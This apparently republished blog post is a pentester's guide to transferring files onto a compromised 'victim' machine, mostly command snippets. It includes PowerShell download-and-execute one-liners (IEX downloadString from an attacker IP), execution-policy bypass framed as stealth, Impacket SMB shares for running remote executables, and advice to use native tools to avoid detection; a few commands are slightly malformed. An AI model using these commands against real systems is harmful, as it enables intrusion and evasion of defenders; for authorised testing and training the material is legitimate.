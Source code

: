 +++
title = 'Pentester’s Guide to Performing File Transfers'
date = 2022-06-08
draft = false
+++
![](https://cdn-images-1.medium.com/max/800/1*HNC0lT4gPMDU8uH0fyjRyw.png)

Foreword
========

To avoid detection, it is best to use tools that are native to the victim’s computer.

FTP with Windows Host
=====================

While having a shell on the Windows machine, start an FTP server on your host machine. Follow these steps if you don’t already have FTP server installed:


```
sudo apt-get install vsftpd  
sudo service vsftpd start  
service vsftpd status #status should be active
```
To check if your server is working, type `ftp localhost.` If you see the message “Connected to localhost”, your FTP server is running.

![](https://cdn-images-1.medium.com/max/800/1*ehYiaPXjraslOYhNqIv7Zw.png)
Accessing File With Interactive Shell
-------------------------------------

If you have an interactive shell on the Windows machine, run this command.


```
cscript wget.vbs http://<YOUR IP>/<PATH TO FILE> <FILENAME TO SAVE AS>
```
Accessing File With Non-Interactive Shell
-----------------------------------------

If you don’t have an interactive shell, you can’t start PowerShell.exe. A workaround is to create a PowerShell script and execute it:


```
echo $storageDir = $pwd > wget.ps1  
echo $webclient = New-Object System.Net.WebClient >>wget.ps1  
echo $url = "http://<YOUR IP>/<PATH TO FILE>" >>wget.ps1  
echo $file = "output-file.exe" >>wget.ps1  
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
To invoke`wget.ps1`, call


```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

```
-ExecutionPolicy Bypass -noLogo -NonInteractive --- stealthly
```

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<YOUR IP>/<FILENAME>')"
```

```
IEX(New-Object Net.WebClient).downloadString('http://<YOUR IP>/<FILENAME>')
```
![](https://cdn-images-1.medium.com/max/800/1*nBHrLvu-D9RNlMsbTG3Wsg.jpeg)
Getting Files Through PowerShell
================================

On your Kali Linux machine, make a copy of the file you want to send to `/var/www/html/` . On the Window’s machine, execute the following:


```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.10.128/unko.txt','C:\Users\Administrator\Desktop\transferme.txt')"
```

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.119.146/gori.ps1')"
```
File Transfer With SMB
======================

Method 1
--------

Get `smbserver.py`from [Impacket](https://github.com/SecureAuthCorp/impacket) and run the following on your Kali Linux machine:


```
smbserver.py gori $(pwd) -smb2support -user gori -pass gorigori
```
Run this on the victim’s machine:


```
New-PSDrive -Name "gori" -PSProvider "FileSystem" -gori "\\<YOUR IP>\gori"
```
Method 2
--------

Run this on your Kali machine:


```
smbserver.py kali .
```
Run this on the victim’s machine:


```
On victim's \\<YOUR IP ADDRESS>\kali\FILE\_NAME.exe "whoami" # "whoami" confirms that it is running
```
![](https://cdn-images-1.medium.com/max/800/1*i6K6JFM5TTxSFf4b_ermuQ.png)
File Transfer With an HTTP Server
=================================

On your machine run:


```
python3 -m http.server 80
```
This will start an HTTP server on port 80 with the root of the HTTP server being in the directory that you executed the command from. To get a file, run this on the victim’s machine:


```
wget http://<YOUR IP>/path/to/file.txt
```
File Transfer with SCP and RSYNC
================================

Both of these methods of file transfer occur over SSH. Secure Copy Protocol (SCP) is being deprecated, however, if you’re able to use it, the syntax is fairly simple.


```
scp <SOURCE> <DESTINATION>
```
In this example, we are using SCP to copy a file from a remote host to the working directory of our local machine such that our computer is on the receiving end.


```
scp username@ip_address:/home/username/filename
```
If you are looking to transfer a file from your computer to the remote host, the following syntax can be used:


```
scp filename username@ip_address:/home/username
```
The same commands can be used with RYSNC by simply replacing `scp` with `rsync` .


```
rsync <SOURCE> <DESTINATION>
```
Conclusion
==========

There are countless ways to transfer files between two computers. Among the most common methods are HTTP and FTP, but if those don’t work, there is a chance that some of the other options here will. Some honorable mentions that I didn’t go into detail on are SSHFS, SFTP, Winscp, and Samba. I hope that you were able to find value in this article and remember to never stop learning.